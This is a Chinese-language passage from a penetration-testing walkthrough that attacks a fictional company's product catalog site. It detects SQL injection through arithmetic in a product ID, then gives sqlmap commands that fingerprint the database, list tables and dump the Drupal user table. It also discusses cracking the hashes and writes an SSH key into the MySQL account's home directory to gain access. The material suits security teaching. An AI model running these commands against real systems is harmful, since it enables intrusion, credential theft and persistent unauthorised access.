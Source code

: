 ```

#### 4)	catalog.sph-assets.com
最后一个网站似乎是SPH向其客户提供产品的主机。我们可以通过简单的ID以浏览产品列表，如下所示:
![](./Chap2/33.id.png)

我们可以推断，可能正在向后端服务器（最有可能是数据库）发出请求，以便根据提供的ID（上述请求中的13）获取产品。我们尝试通过注入特殊字符（引号、双引号等）进行进一步的探索，但没有什么有趣的结果：服务器用同样令人失望的空白页进行响应。

但是，如果我们用“14-1”替换13，例如，我们会得到产品13。很有趣。这可能意味着我们的算术运算实际上是由后端系统执行的。为了确认我们尝试再次使用“product/13+1”和“product/（select 14）”。
![](./Chap2/34.id2.png)

很好！我们很可能是碰到了代码注入的情况。特别是SQL注入，因为我们之前的“select”语句也被正确地解释了。这意味着我们可以诱使数据库执行附加到请求末尾的SQL代码。当然，代码既要有效，又要尊重一些语法和结构规则，但我们不必太担心它。

事实上，我们将依赖于臭名昭著的“sqlmap”工具来完成繁重的工作，并让我们可以进行下一步的攻击。这个工具将准备必要的SQL代码来列出表并获取列、数据等，但是不要马上兴奋起来。这个网站似乎只提供公共信息。我们不会这么容易得到宝贵的客户数据。

那么SQL注入有什么用呢？在我们的场景中，我们感兴趣的是能够在机器上执行系统代码。这几乎完全取决于安装的数据库软件:
- 如果发出命令的帐户具有管理员权限，则Microsoft SQL Server提供了使用xp_cmdshell在系统上执行代码的本机函数。
- MySQL和Oracle只提供了将文件写入他们有权访问的目录的功能。一个有趣的场景是将后门写入web目录，甚至将SSH密钥写入主文件夹。

为了确定数据库软件，我们使用以下选项启动“sqlmap”:
```
FrontGun$ sqlmap -u catalog.sph- assets.com/product/14* --banner
```
![](./Chap2/35.db&table.png)

> 提示：由于没有容易识别的参数，我们在易受攻击的参数前面放置了一个星号（*）来指导sqlmap。

我们似乎要面对一个MySQL数据库。尽管以web目录和主文件夹为目标仍然是一个可行的选择，但让我们先看看其中的内容。
我们使用以下命令列出所有数据库及其表:
```
FrontGun$ sqlmap -u catalog.sph-assets.com/product/14* --tables
```
![](./Chap2/35.dbversion.png)

表是典型的Drupal CMS——我们可以通过查看网页的HTML代码轻松确认信息。
根据Drupal 8官方网站，用户和密码数据存储在“users_field_data”表中:
```
FrontGun$ sqlmap -u catalog.sph-assets.com/product/14* -T users_field_data --dump
```
![](./Chap2/36.userstable.png)

密码是在数据库中散列的，所以我们需要使用“John the Ripper”这样的工具来破解密码。John the Ripper基本上会检查单词词典（单词列表），看看哪一个匹配每个给定的散列。然而，计算散列需要计算时间，并且可能需要相当多的资源，特别是在测试数十亿种可能性时。

我们也可以尝试公开的破解数据库来正确地处理这个任务。如果你能接受挑战，你可以按照本教程的要求，以合理的预算建造一台可靠的破解机。

不幸的是，Drupal的散列是加盐的（密码前面有一个随机字符串），这使得破解它们非常耗时。即使在John the Ripper破解数小时后，我们也无法取得积极的结果。看起来密码很强。我们唯一的另一个选择是植入SSH密钥。

首先，我们通过以下三个简单的步骤生成一对SSH密钥:
![](./Chap2/37.sshkey.png)

然后调用sqlmap的受信任选项--file-write将公钥（id_rsa.pub）写入以下目录: /home/mysql/.ssh/authorized_keys。

但是，要记住的一个限制是MySQL不能覆盖文件。所以我们祈祷，希望目标目录中没有名为“authorized_keys”的文件:
```
FrontGun$ sqlmap -u catalog.sph-assets.com/product/14* --file-write=/root/.ssh/id_rsa.pub -–file-destination=/home/mysql/.ssh/
```


```